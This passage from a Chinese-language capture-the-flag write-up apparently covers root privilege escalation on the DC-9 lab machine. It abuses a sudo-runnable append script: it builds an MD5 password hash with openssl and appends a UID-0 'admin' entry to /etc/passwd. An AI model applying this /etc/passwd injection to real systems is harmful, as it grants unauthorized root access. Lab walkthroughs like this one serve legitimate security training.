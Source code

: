 ![27](https://havocykp.github.io/assets/images/img_blog11/27.png)

发现 /opt/devstuff/dist/test/test 具有root权限



提权

切换到 fredf用户根目录查看文件，发现一个python脚本

/opt/devstuff/test.py 

```javascript
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r") 
    output = (f.read())		#读取第一个文件的第一行内容

    f = open(sys.argv[2], "a")	#获取第二个文件的写入权限
    f.write(output)		#用root权限将第一个文件的第一行内容写入到第二个文件中去
    f.close()
```

这是一段追加脚本，可以新建一个用户，然后将信息追加到 /etc/passwd 中

![28](https://havocykp.github.io/assets/images/img_blog11/28.png)

在攻击机本地建一个拥有root权限的用户，再把这个用户的信息通过python脚本写到靶机的/etc/passwd文件中存储，这样就可以得到一个有root权限的账号



使用openssl 先创建一个本地的加密用户

```javascript
┌─[root@pendo]─[~]
└──╼ #openssl passwd -1 -salt admin admin
$1$admin$1kgWpnZpUx.vTroWPXPIB0
┌─[root@pendo]─[~]
└──╼ #
                
 -1 使用md5加密算法
 -salt 自动插入一个随机数作为文件内容加密，加盐
```

![29](https://havocykp.github.io/assets/images/img_blog11/29.png)

然后在靶机中，/opt/devstuff/dist/test目录下用 echo 命令在 /tmp 目录下创建一个名为getshell的文件（名字自定义），同时将生成的加密用户信息写到文件中，再使用 sudo 用靶机中的test脚本来运行这个文件，将这个文件写入到passwd中，接着 su admin输入自己设定的密码就可以成功提权到root用户

```javascript
// 进入test目录
cd /opt/devstuff/dist/test
// 使用echo在tmp下创建getshell文件
fredf@dc-9:/opt/devstuff/dist/test$ echo /tmp/getshell
// 添加用户名admin:和 :0:0::/root:/bin/bash ，使admin用户拥有root权限
fredf@dc-9:/opt/devstuff/dist/test$ echo 'admin:$1$admin$1kgWpnZpUx.vTroWPXPIB0:0:0::/root:/bin/bash' >> /tmp/getshell
// 利用脚本将信息写入 /etc/passwd
fredf@dc-9:/opt/devstuff/dist/test$ sudo ./test /tmp/getshell /etc/passwd

// 提权成功
fredf@dc-9:/opt/devstuff/dist/test$ su admin
Password: 
```